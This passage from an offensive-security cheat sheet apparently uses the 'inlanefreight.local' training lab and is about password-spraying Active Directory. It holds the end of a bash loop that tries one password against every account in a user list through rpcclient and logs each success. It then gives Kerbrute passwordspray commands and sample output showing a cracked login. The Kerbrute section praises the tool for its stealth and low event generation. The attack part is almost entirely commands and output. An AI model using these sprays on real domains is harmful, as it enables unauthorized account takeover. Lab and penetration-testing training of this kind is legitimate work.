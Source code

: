 ```bash
for user in $(cat $USERLIST); do
    echo "[$(date)] Testing user: $user" >> $LOGFILE
    result=$(rpcclient -U "$user%$PASSWORD" -c "getusername;quit" $DC_IP 2>/dev/null)
    
    if echo "$result" | grep -q "Authority"; then
        echo "[SUCCESS] $user:$PASSWORD" | tee -a $LOGFILE
        echo "$result" >> $LOGFILE
    fi
done

echo "[$(date)] Password spray completed" | tee -a $LOGFILE
```

---

## 🎫 Kerbrute Password Spraying

### ⚡ **Key Advantages**
- **Speed**: Fastest password spraying method
- **Stealth**: Minimal event generation
- **Kerberos-Based**: Uses native authentication protocol
- **Clear Output**: Easy to identify successful logins

### 🚀 **Basic Kerbrute Spraying**
```bash
# Single password spray
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1

# Save results to file
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1 -o spray_results.txt

# Verbose output
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1 -v
```

### 📊 **Example Kerbrute Output**
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```
